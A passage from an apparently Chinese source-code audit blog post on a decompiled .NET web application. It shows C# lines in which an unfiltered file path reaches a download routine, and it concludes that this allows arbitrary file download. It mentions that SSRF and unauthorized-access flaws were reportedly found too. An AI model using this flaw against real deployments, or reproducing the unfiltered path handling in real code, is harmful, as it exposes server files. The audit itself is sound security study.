FileInfo fileInfo = new FileInfo(text2);  
Domain domain = CreateInstance.DomainDao.Get(CookieGroupConfig.DomainGuid);
```

接着调用 ResponseFile 方法去下载文件了

```c\#
if (!ResponseFile(Page.Request, Page.Response, fileInfo.Name, fileInfo.FullName, domain.DownloadSpeed \* 1024 \* 1024))
```

很明显啊，这里对传入的 File 没做任何过滤，直接拼接就可以实现任意文件下载了

这里的 ResponseFile 也是常规的文件下载方法，这里不做分析



# 0x05 小结

这套源码还是比较简单的，几乎没做任何过滤，主要入门还是得去了解反编译工具、控制器在哪和关键函数定位了

据说这套源码其他师傅还审出了SSRF、未授权访问等，其他的等有空再去审审学习一下吧。
